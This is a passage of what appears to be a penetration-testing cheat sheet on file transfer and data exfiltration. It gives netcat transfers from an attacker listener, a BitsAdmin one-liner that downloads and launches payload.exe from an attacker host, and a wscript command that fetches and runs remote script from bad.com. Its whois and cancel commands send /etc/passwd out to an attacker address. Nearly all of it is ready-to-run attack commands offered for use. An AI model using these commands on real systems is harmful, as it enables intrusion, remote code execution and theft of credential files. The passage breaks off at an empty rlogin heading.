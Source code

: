 ```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

​# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method <a id="http-windows-debug-exe-method"></a>

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt

# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin <a id="http-windows-bitsadmin"></a>

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

#### Wscript Script Code Download & Execution <a id="wscript-script-code-download-and-execution"></a>

{% tabs %}
{% tab title="cmd code.js" %}
```bash
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```
{% endtab %}
{% endtabs %}

### Whois Data Exfiltration <a id="whois-data-exfiltration"></a>

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d

# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Cancel Data Exfiltration <a id="cancel-data-exfiltration"></a>

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### rlogin Data Exfiltration <a id="rlogin-data-exfiltration"></a>
